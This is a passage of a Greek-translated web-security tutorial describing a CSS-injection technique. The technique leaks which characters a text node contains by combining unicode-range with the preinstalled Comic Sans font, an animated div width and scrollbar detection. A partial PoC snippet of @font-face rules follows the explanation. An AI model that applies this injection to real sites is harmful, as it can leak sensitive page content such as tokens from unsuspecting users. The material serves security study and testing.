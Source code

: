 ### Εξυπνηρία κειμένου (II): διαρροή του συνόλου χαρακτήρων με μια προεπιλεγμένη γραμματοσειρά (χωρίς την ανάγκη εξωτερικών πόρων) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Αναφορά:** [PoC χρησιμοποιώντας το Comic Sans από @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

Αυτό το κόλπο κυκλοφόρησε σε αυτό το [**Slackers thread**](https://www.reddit.com/r/Slackers/comments/dzrx2s/what\_can\_we\_do\_with\_single\_css\_injection/). Το σύνολο χαρακτήρων που χρησιμοποιείται σε έναν κόμβο κειμένου μπορεί να διαρρεύσει **χρησιμοποιώντας τις προεπιλεγμένες γραμματοσειρές** που είναι εγκατεστημένες στον περιηγητή: δεν απαιτούνται εξωτερικά -ή προσαρμοσμένα- γράμματα.

Το συγκεκριμένο κόλπο βασίζεται στη χρήση μιας animation για να αυξήσει σταδιακά το πλάτος ενός `div`, επιτρέποντας σε ένα χαρακτήρα κάθε φορά να μεταβεί από το τμήμα 'κατάληξης' του κειμένου στο τμήμα 'προθέματος'. Αυτή η διαδικασία χωρίζει αποτελεσματικά το κείμενο σε δύο τμήματα:

1. **Πρόθεμα**: Η αρχική γραμμή.
2. **Κατάληξη**: Οι επόμενες γραμμές.

Οι στάδιο μετάβασης των χαρακτήρων θα εμφανιστούν ως εξής:

**C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**

Κατά τη διάρκεια αυτής της μετάβασης, χρησιμοποιείται το **κόλπο unicode-range** για να αναγνωρίσει κάθε νέο χαρακτήρα καθώς εντάσσεται στο πρόθεμα. Αυτό επιτυγχάνεται με τη μετάβαση της γραμματοσειράς σε Comic Sans, η οποία είναι εμφανώς ψηλότερη από την προεπιλεγμένη γραμματοσειρά, ενεργοποιώντας έτσι μια κάθετη μπάρα κύλισης. Η εμφάνιση αυτής της μπάρας κύλισης αποκαλύπτει έμμεσα την παρουσία ενός νέου χαρακτήρα στο πρόθεμα.

Αν και αυτή η μέθοδος επιτρέπει την ανίχνευση μοναδικών χαρακτήρων καθώς εμφανίζονται, δεν καθορίζει ποιος χαρακτήρας επαναλαμβάνεται, μόνο ότι έχει συμβεί μια επανάληψη.

{% hint style="info" %}
Βασικά, το **unicode-range** χρησιμοποιείται για να ανιχνεύσει ένα χαρακτήρα, αλλά καθώς δεν θέλουμε να φορτώσουμε μια εξωτερική γραμματοσειρά, πρέπει να βρούμε άλλον τρόπο.\
Όταν ο **χαρακτήρας** είναι **εντοπισμένος**, του δίνεται η προεγκατεστημένη **γραμματοσειρά Comic Sans**, η οποία τον κάνει **μεγαλύτερο** και **ενεργοποιεί μια μπάρα κύλισης** που θα **διαρρεύσει τον εντοπισμένο χαρακτήρα**.
{% endhint %}

Ελέγξτε τον κώδικα που εξήχθη από το PoC:

````css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
````